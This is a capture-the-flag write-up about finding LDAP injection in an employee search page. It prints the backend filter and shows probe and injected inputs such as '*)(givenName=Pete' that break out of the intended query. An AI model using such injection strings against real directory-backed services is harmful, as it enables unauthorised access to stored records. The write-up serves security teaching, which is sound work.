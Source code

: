 ![](screens/ldab.png)

The weird column names and the title of the challenge can quickly lead us to finding out about Lightweight Directory Access Protocol (LDAP). More specifically, [LDAP filters](https://en.wikipedia.org/wiki/Lightweight_Directory_Access_Protocol#Search_and_Compare) and even better - [LDAP injection](https://www.owasp.org/index.php/Testing_for_LDAP_Injection_%28OTG-INPVAL-006%29).

A simple way to verify if the page is vulnerable is with test strings like `*` (should show all users), `Pete*` / `P*te` (should show Pete), before moving on to injections with `(` and `)`.

The page always shows results with `OU` (object class?) value of `Employees`, and whatever we type into the search box must match the `GivenName` column. Presumably there is an entry in the database that never shows up, which will contain the flag itself. This is the filter used (shamelessly stolen from the source):

    filter: (&(objectClass=person)(&(givenName=<input>)(!(givenName=Flag))))
    intended meaning:
      (objectClass is person)
      AND
      (
        (givenName is <input>)
        AND
        NOT(givenName is Flag)
      )

We can verify this is the case without much damage (yet):

    input:  *)(givenName=Pete
    filter: (&(objectClass=person)(&(givenName=*)(givenName=Pete)(!(givenName=Flag))))
    meaning:
      (objectClass is person)
      AND
      (
        (givenName is any)
        AND
        (givenName is Pete)
        AND
        NOT(givenName is Flag)
      )
